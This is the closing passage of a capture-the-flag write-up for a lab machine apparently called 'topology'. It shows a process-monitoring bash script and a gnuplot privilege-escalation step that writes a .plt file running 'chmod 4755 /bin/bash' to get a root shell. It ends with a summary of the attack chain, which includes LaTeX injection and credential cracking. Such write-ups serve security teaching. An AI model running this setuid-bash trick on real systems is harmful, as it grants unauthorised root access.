 ```sh 
vdaisley@topology:/tmp$ cat procmon.sh
```
```bash
#!/bin/bash
old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v "kworker"
    old_process=$new_process
done

```
```sh
vdaisley@topology:/tmp$ chmod +x procmon.sh
```

### When executing the command, these two processes caught my attention.


### I didn’t know what **gnuplot** was, so I looked it up.


### I searched to see if it was possible to execute commands using **gnuplot**.


### Since **gnuplot** executes files in `/opt/gnuplot` with a `.plt` extension and can run commands using the `system` function, my idea is to create a `.plt` file in `/opt/gnuplot` that grants the **setuid (4755) permission** to `/bin/bash`.

```bash
echo 'system("chmod 4755 /bin/bash")' > /opt/gnuplot/root_shell.plt
```

### And it executes!

### Now, I just need to launch a **bash shell** with the following command to escalate privileges and become **root**:



---

## Summary

- **Enumerated** web services and subdomains.
- **Exploited** LaTeX injection to read system files.
- **Found credentials** and cracked the hash.
- **Logged into SSH** with the obtained credentials.
- **Discovered a running process (`gnuplot`)** executing scripts as root.
- **Used `gnuplot` to modify file permissions**, gaining root access.
- **Captured root flag**. 🎉
